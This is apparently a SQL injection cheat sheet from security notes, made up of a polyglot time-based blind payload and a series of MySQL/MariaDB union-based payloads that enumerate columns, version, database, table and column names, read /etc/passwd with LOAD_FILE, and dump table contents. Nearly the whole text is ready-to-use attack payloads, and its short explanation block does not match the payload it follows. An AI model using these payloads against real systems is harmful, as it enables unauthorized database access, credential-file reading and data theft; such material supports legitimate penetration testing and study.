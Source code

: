 ```c
1%27/**/%256fR/**/50%2521%253D22%253B%2523=="0\"XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z",===query=login&username=rrr';SELECT PG_SLEEP(5)--&password=rr&submit=Login==' AND (SELECT 8871 FROM (SELECT(SLEEP(5)))uZxz)
```

#### Explanation

```c
1=1    // is always true
--     // comment
-      // special character at the end just because of sql
```

### Common Injections

#### MySQL & MariaDB

##### Get Number of Columns

```c
-1 order by 3;#
```

##### Get Version

```c
-1 union select 1,2,version();#
```

##### Get Database Name

```c
-1 union select 1,2,database();#
```

##### Get Table Name

```c
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<DATABASE>";#
```

##### Get Column Name

```c
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<DATABASE>" and table_name="<TABLE>";#
```

##### Read a File

```c
SELECT LOAD_FILE('/etc/passwd')
```

##### Dump Data

```c
-1 union select 1,2, group_concat(<COLUMN>) from <DATABASE>.<TABLE>;#
```
